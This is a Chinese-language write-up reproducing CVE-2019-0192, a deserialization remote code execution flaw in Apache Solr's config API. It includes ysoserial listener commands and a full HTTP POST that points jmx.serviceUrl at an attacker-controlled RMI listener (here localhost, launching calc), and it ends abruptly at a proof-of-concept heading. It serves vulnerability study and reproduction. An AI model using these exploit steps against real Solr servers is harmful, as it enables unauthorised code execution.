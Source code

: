 # （CVE-2019-0192）Apache Solr Deserialization 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2825](https://www.zhihuifly.com/t/topic/2825)

# （CVE-2019-0192）Apache Solr Deserialization 远程代码执行漏洞

## 一、漏洞简介

Apache Solr中的ConfigAPI允许设置一个jmx.serviceUrl，它将创建一个新的JMXConnectorServerFactory，并通过“绑定”操作触发对目标RMI/LDAP服务器的调用。恶意的RMI服务器可以响应任意的对象，这些对象将在Solr端使用java的ObjectInputStream反序列化，这被认为是不安全的。这种类型的漏洞可以利用ysoserial工具。根据目标类路径，攻击者可以使用其中一个“gadget chain”来触发Solr端上的远程代码执行。

## 二、漏洞影响

Apache Solr 5.0.0 to 5.5.5

Apache Solr 6.0.0 to 6.6.5

## 三、复现过程

下载Apache Solr 5.5.3版本作为靶机（注意，一定要使用jre7u25以下jre），执行**solr -e techproducts -Dcom.sun.management.jmxremote**指令开启服务。

使用ysoserial工具，执行**Java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12363 Jdk7u21 "calc"**指令，监听***12363***端口。然后传入以下数据：

```
POST /solr/techproducts/config HTTP/1.1

Host: [0-sec.org:8983](http://0-sec.org:8983)

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Content-type:application/json

Connection: close

Upgrade-Insecure-Requests: 1

Content-Length: 91 `{“set-property” : {“jmx.serviceUrl” : “service:jmx:rmi:///jndi/rmi://127.0.0.1:12363/obj”}}` 
```

### poc

下载[yoserial](http://wiki.0-sec.org/download/yoserial.zip),并将value修改为一下内容

